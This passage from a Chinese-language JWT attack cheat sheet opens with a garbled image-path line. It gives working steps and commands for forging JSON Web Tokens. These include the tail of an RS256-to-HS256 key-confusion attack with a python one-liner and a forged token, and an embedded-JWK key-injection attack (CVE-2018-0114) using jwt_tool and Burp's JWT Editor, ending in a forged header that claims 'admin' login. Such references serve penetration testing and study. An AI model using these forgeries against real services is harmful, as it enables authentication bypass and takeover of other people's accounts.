      (stdin)= 8f421b351eb61ff226df88d526a7e9b9bb7b8239688c1f862f261a0c588910e0
     ```

  3. 将签名（十六进制转换为“base64 URL”）

     ```powershell
     $ python2 -c "exec(\"import base64, binascii\r\nprint base64.urlsafe_b64encode(binascii.a2b_hex('8f421b351eb61ff226df88d526a7e9b9bb7b8239688c1f862f261a0c588910e0')).replace('=','')\")"
     ```

  4. 将签名添加到编辑后的有效载荷

     ```powershell
     [HEADER EDITED RS256 TO HS256].[DATA EDITED].[SIGNATURE]
     eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6IjIzIiwidXNlcm5hbWUiOiJ2aXNpdG9yIiwicm9sZSI6IjEifQ.j0IbNR62H_Im34jVJqfpubt7gjlojB-GLyYaDFiJEOA
     ```

### JWT签名 - 密钥注入攻击（CVE-2018-0114）

> Cisco node-jose开源库在0.11.0版本之前的漏洞允许未经认证的远程攻击者使用嵌入在令牌中的密钥重新签名令牌。该漏洞是由于node-jose遵循JSON Web签名（JWS）标准用于JSON Web令牌（JWT）。该标准指定代表公钥的JSON Web密钥（JWK）可以嵌入到JWS的头部中。然后信任此公钥进行验证。攻击者可以通过删除原始签名、向头部添加新公钥，然后使用与该JWS头部中嵌入的公钥关联的攻击者拥有的私钥对该对象进行签名来利用这一点。

**利用方法**：

- 使用[ticarpi/jwt_tool]

  ```ps1
  python3 jwt_tool.py [JWT_HERE] -X i
  ```

- 使用portswigger/JWT Editor

  1. 添加一个新的RSA密钥
  2. 在JWT的Repeater选项卡中编辑数据
  3. `Attack` > `Embedded JWK`

**解构**：

```json
{
  "alg": "RS256",
  "typ": "JWT",
  "jwk": {
    "kty": "RSA",
    "kid": "jwt_tool",
    "use": "sig",
    "e": "AQAB",
    "n": "uKBGiwYqpqPzbK6_fyEp71H3oWqYXnGJk9TG3y9K_uYhlGkJHmMSkm78PWSiZzVh7Zj0SFJuNFtGcuyQ9VoZ3m3AGJ6pJ5PiUDDHLbtyZ9xgJHPdI_gkGTmT02Rfu9MifP-xz2ZRvvgsWzTPkiPn-_cFHKtzQ4b8T3w1vswTaIS8bjgQ2GBqp0hHzTBGN26zIU08WClQ1Gq4LsKgNKTjdYLsf0e9tdDt8Pe5-KKWjmnlhekzp_nnb4C2DMpEc1iVDmdHV2_DOpf-kH_1nyuCS9_MnJptF1NDtL_lLUyjyWiLzvLYUshAyAW6KORpGvo2wJa2SlzVtzVPmfgGW7Chpw"
  }
}.
{"login":"admin"}.
[使用新私钥签名；公钥注入]
```
